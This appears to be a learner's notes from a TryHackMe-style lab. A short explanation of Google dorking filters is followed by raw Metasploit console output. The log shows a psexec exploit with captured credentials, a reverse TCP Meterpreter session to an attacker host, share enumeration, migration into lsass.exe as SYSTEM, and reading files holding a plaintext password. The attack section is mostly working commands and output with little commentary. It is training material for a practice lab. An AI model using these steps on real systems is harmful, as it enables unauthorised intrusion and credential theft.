Google hacking / Dorking utilizes Google's advanced search engine features, which allow you to pick out custom content. You can, for instance, pick out results from a certain domain name using the site: filter, for example (site:tryhackme.com) you can then match this up with certain search terms, say, for example, the word admin (site:tryhackme.com admin) this then would only return results from the tryhackme.com website which contain the word admin in its content. You can combine multiple filters as well. Here is an example of more filters you can use:

Filter
Example
Description
site
site:tryhackme.com
returns results only from the specified website address
inurl
inurl:admin
returns results that have the specified word in the URL
filetype
filetype:pdf
returns results which are a particular file extension
intitle
intitle:admin
returns results that contain the specified word in the title

More information about google hacking can be found here: https://en.wikipedia.org/wiki/Google_hacking


getuid
Server username: NT AUTHORITY\SYSTEM


meterpreter > sysinfo
Computer        : ACME-TEST
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 8
Meterpreter     : x86/windows
meterpreter >


# windows/gather/enum_shares


meterpreter > shell

C:\Windows\system32>net share
net share

Share name   Resource                        Remark

-------------------------------------------------------------------------------
C$           C:\                             Default share                     
IPC$                                         Remote IPC                        
ADMIN$       C:\Windows                      Remote Admin                      
NETLOGON     C:\Windows\SYSVOL\sysvol\FLASH.local\SCRIPTS
                                             Logon server share                
speedster    C:\Shares\speedster             
SYSVOL       C:\Windows\SYSVOL\sysvol        Logon server share                
The command completed successfully.


C:\Windows\system32>


meterpreter > ps


756   636   lsass.exe    x64   0


meterpreter > migrate 756
[*] Migrating from 3332 to 756...
[*] Migration completed successfully.
meterpreter > 


xploit completed, but no session was created.
msf6 exploit(windows/smb/psexec) > unset all
Unsetting datastore...
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.10.78.20
RHOSTS => 10.10.78.20
msf6 exploit(windows/smb/psexec) > set SMBUser ballen
SMBUser => ballen
msf6 exploit(windows/smb/psexec) > set SMBPass Password1
SMBPass => Password1
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 10.10.95.179:4444 
[*] 10.10.78.20:445 - Connecting to the server...
[*] 10.10.78.20:445 - Authenticating to 10.10.78.20:445 as user 'ballen'...
[-] 10.10.78.20:445 - Exploit failed [no-access]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: Unable to negotiate SMB1 with the remote host: Expecting SMB2 protocol with command=0, got SMB2 protocol with command=0, Status: (0xc002001c) RPC_NT_CALL_FAILED_DNE: The RPC failed and did not execute.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 10.10.95.179:4444 
[*] 10.10.78.20:445 - Connecting to the server...
[*] 10.10.78.20:445 - Authenticating to 10.10.78.20:445 as user 'ballen'...
[*] 10.10.78.20:445 - Selecting PowerShell target
[*] 10.10.78.20:445 - Executing the payload...
[+] 10.10.78.20:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 10.10.78.20
[*] Meterpreter session 4 opened (10.10.95.179:4444 -> 10.10.78.20:64665) at 2025-07-29 21:32:46 +0100

meterpreter > search -f secrets.txt
Found 1 result...
=================

Path                                                            Size (bytes)  Modified (UTC)
----                                                            ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35            2021-07-30 08:44:27 +0100

meterpreter > cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"
My Twitter password is KDSvbsw3849!meterpreter > search -f realsecret.txt
Found 1 result...
=================

Path                               Size (bytes)  Modified (UTC)
----                               ------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 09:30:24 +0100

meterpreter > cat "c:\inetpub\wwwroot\realsecret.txt"
The Flash is the fastest man alivemeterpreter > 
